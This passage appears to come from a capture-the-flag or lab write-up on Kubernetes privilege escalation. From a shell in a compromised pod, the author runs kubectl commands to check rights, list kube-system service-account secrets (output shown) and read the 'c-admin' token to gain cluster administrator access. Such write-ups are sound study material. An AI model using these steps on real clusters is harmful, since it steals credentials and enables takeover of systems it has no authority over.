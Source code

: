 
<img src="node.png">

and we get a shell in devnode


Now let's try if we can list secrets of the namespace kube-system


```
./kc auth can-i list secrets -n kube-system
```

<img src="secret.png">

now let's get them

```
./kc get secrets -n kube-system
```


```
root@devnode-deployment-cd86fb5c-6ms8d:~/.euch# ./kc get secrets -n kube-system

NAME                                             TYPE                                  DATA   AGE
attachdetach-controller-token-5dkkr              kubernetes.io/service-account-token   3      230d
bootstrap-signer-token-xl4lg                     kubernetes.io/service-account-token   3      230d
c-admin-token-tfmp2                              kubernetes.io/service-account-token   3      229d
certificate-controller-token-thnxw               kubernetes.io/service-account-token   3      230d
..<snip>..
```

```c-admin-token-tfmp2``` is the interesting one which will give us the administrator token



```
./kc describe secrets/c-admin-token-tfmp2 -n kube-system
```


<img src="token.png">

```